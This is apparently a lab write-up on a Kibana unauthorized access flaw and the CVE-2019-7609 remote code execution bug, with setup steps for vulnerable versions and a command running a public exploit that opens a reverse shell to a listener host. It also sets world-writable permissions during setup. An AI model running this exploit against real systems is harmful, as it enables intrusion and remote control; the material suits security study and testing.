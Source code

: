 # Unauthorized Access Vulnerability in Kibana

## Vulnerability Description

The Kibana Unauthorized Access Vulnerability refers to a situation where, without proper authentication and authorization configuration, an unauthenticated user can access Kibana's dashboard, data, and other sensitive information. This vulnerability may result in data leaks, attackers controlling the Kibana environment, and other security threats.

## Environment Setup

Install elasticsearch

```
cd /opt
wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.5.3.tar.gz
tar -zxvf elasticsearch-6.5.3.tar.gz
cd elasticsearch-6.5.3
useradd es
chmod 777 -R /opt/elasticsearch-6.5.3
./bin/elasticsearch
```

![image-20220726162834227](../../.gitbook/assets/image-20220726162834227.png)

Install kibana

```
wget https://artifacts.elastic.co/downloads/kibana/kibana-6.5.3-linux-x86_64.tar.gz
tar xvf kibana-6.5.3-linux-x86_64.tar.gz
cd kibana-6.5.3-linux-x86_64
./bin/kibana
```

Access port 5601 in a browser.

![image-20220726163136064](../../.gitbook/assets/image-20220726163136064.png)

## Vulnerability Exploitation

exp：https://github.com/LandGrey/CVE-2019-7609

```
[root@localhost CVE-2019-7609-master]# python CVE-2019-7609-kibana-rce.py -u 127.0.0.1:5601 -host 192.168.32.130 -port 9999 --shell
[+] http://127.0.0.1:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 192.168.32.130:9999
```

![image-20230130131026778](../../.gitbook/assets/image-20230130131026778.png)